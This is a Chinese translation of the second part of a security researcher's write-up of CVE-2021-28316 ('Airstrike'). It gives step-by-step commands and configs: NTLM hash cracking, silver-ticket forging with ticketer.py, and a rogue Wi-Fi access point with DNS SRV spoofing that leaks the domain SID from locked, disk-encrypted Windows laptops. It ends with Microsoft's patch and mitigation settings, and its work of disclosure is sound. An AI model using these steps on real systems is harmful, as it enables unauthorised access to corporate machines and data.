 > 原文链接: https://www.anquanke.com//post/id/238698 


# 深入分析CVE-2021-28316漏洞（下）


                                阅读量   
                                **175144**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Matthew Johnson，文章来源：shenaniganslabs.io
                                <br>原文地址：[https://shenaniganslabs.io/2021/04/13/Airstrike.html﻿](https://shenaniganslabs.io/2021/04/13/Airstrike.html%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)



在上一篇文章中，我们为读者详细介绍了CVE-2021-28316漏洞的背景知识，并展示了实现本地提权的过程，在本文中，我们将继续为读者介绍如何恢复HTML哈希值等重要知识点。

（接上文）

## 恢复NTLM哈希值

然后，攻击者可以将捕获到的这个MSCHAPv2质询响应的哈希值，通过工具chapcrack转换为Cloud Crack格式，并提交给crack.sh服务进行破解。

[![](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)

为了达到演示的目的，在我们的实验中，将使用Impacket的工具secretsdump.py来验证chapcrack输出的K3的前4个字节与计算机账户的NTLM哈希值的后4个字节是否匹配。

[![](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)

作为一个经过身份验证的域用户，我们可以通过多种方式获取域SID。其中，最简单的方法是运行whoami /all命令。

[![](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)

现在，我们已经掌握了为设备上的CIFS服务伪造一个服务票据所需的所有信息。由于我们可以指定服务票据中包含的用户和组SID，这样的话，我们就可以用它来作为具有管理权限的用户来访问CIFS服务了。

为此，我们可以使用Impacket中的工具ticketer.py和下面的命令来完成这个任务。

```
ticketer.py -nthash c86afa9bd3c7afa9ff31da6af182ddbe -domain-sid S-1-5-21-553012155-822088108-1873906631 -domain INITECH.local -spn cifs/DESKTOP-J5KI5KA.initech.local administrator
export KRB5CCNAME=administrator.ccache
```

[![](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)

这样的话，使用smbclient，我们就可以访问笔记本电脑的整个文件系统了。

[![](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)

Impacket中的smbexec.py之类的工具为我们提供了一种简便的方法，可以在SYSTEM用户的安全上下文中在主机上执行命令。

[![](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)

在发现可以从锁屏状态下获取质询响应的哈希值之后，攻击者又找到了一些更有趣的攻击情形，例如，攻击启用了全盘加密（FDE）的、处于锁屏状态的笔记本电脑。

但是，为了利用这一漏洞，目前还缺少重要的一环，即域SID。我们需要一种无需先登录到计算机即可恢复它的方法。



## 缺失的一环

在发现这种攻击方法几个月之后，一位客户联系我们，要求对其一台SOE笔记本电脑进行相应的安全测试。他们特别关心的是，如果攻击者能够将魔爪伸向受到BitLocker全盘加密保护的、处于锁屏状态的笔记本电脑上，将会造成多大的损失。

针对这种特定攻击情形，我本人和我的同事Danyal Drew（[@DanyalDrew](https://github.com/DanyalDrew)）重新考虑了这个想法，并着手考察是否可以找到一种无需登录计算机即可泄漏域SID的方法。

当加入域的计算机首次访问网络时，将执行许多CLDAP搜索，以识别域控制器上可用的服务。这些消息称为LDAP ping。

这听起来很有希望，因为在此搜索过程中使用的CLDAP查询包含以下信息：
- DnsDomain
- Host
- DnsHostName
- User
- DomainSid
- DomainGuid
我们的初步测试方法是，运行Wireshark捕获并观察无线客户端发出的LDAP DNS请求。

[![](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)

然后，将这些srv-host DNS条目添加到dnsmasq配置中并重新连接客户端后，我们找到了目标内容。

[![](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)

这样，我们现在就获得了入侵处于锁屏状态的笔记本电脑所需的一切。



## 在启用了全盘加密的情况下访问处于锁屏状态的计算机

实际上，这里的恶意AP配置也可用于通过目标设备的锁屏页面捕获质询响应的哈希值并提交给crack.sh服务。

要泄漏域SID，我们需要将笔记本电脑加入攻击者控制的网络；在该网络中，我们将使用攻击者的IP地址响应笔记本电脑发出的所有DNS SRV请求。

这样的话，我们就能够捕获包含域SID和域名的“ LDAP ping”数据包。同样的，我们还需要运行恶意访问点，并强制客户端从锁屏页面进行连接。但是，这次，我们将使用下面的hostapd.conf和hostapd-psk文件创建WPA2-PSK网络，而不是配置访问点以支持PEAP身份验证。

```
interface=$WIRELESS_INTERFACE_HERE
ssid=Airstrike_WPA
channel=1
auth_algs=1
wpa=3
wpa_psk_file=./hostapd-psk
wpa_key_mgmt=WPA-PSK 
wpa_pairwise=CCMP TKIP
rsn_pairwise=CCMP
```

然后，建立一个文件hostapd-psk，用于配置网络的密码。

```
00:00:00:00:00:00 airstrike
```

由于我们希望笔记本电脑能够连接到自己的网络，因此，我们还需要使用dnsmasq来运行DHCP和DNS服务器，所需的dnsmasq.conf文件如下所示。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

接下来，让我们可以为无线适配器分配一个IP地址，并启动DNS/DHCP服务器。

```
ifconfig $WIRELESS_INTERFACE 10.0.0.1/24 up
dnsmasq -d -C dnsmasq.conf
```

为了捕获来自笔记本电脑的流量，我们还需要在无线接口上启用tcpdump。

```
tcpdump -i $WIRELESS_INTERFACE -s 65535 -w $OUT_FILE.pcap
```

一旦运行上述命令，我们就可以从锁屏页面连接到无线网络，并且会在笔记本电脑上看到从我们的DHCP服务器接收的IP数据包。

需要注意的是，笔记本电脑首次连接时，我们会看到许多无应答的SRV DNS请求。我们需要记录下所有这些内容，并修改dnsmasq.conf文件，以使用无线接入点的IP地址可以响应它们。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp

srv-host=_ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.a3fcc77a-710d-4956-af07-bfa9187b91e9.domains._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.INITECH.local,10.0.0.1,389
```

接下来，我们可以断开笔记本电脑与接入点的连接，然后重新连接，并检查新的pcap文件的内容。如果我们过滤的是CLDAP协议的数据包，我们就会发现笔记本电脑试图对攻击者的IP进行LDAP ping。并且，LDAP ping消息的内容将包括活动目录域名、笔记本电脑的主机名和域SID。

现在，我们可以再次使用工具ticketer.py为CIFS服务创建一个白银票据，并使用smbclient进行身份验证，从而获得对设备文件系统的无限制访问权限。

注意：在某些情况下，默认的RID 500帐户在加入域的主机上并不具有本地管理员权限。在这种情况下，可以通过暴力搜索方法：不断递增白银票据中的RID，直到发现有效帐户为止。



## 补救措施

这个安全问题已报告给Microsoft安全响应中心，并且已在2021年4月的最新安全更新中得到修复。

作为进一步的加强措施，我们可以通过以下组策略设置，禁用从锁屏页面访问网络选择UI的功能：

```
Computer Configuration | Administrative Templates | System | Logon --&gt; Do not display network selection UI

```

此外，我们也可以通过配置注册表，启用DontDisplayNetworkSelectionUI标志来实现上述目的：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System]
"DontDisplayNetworkSelectionUI"=dword:00000001
```
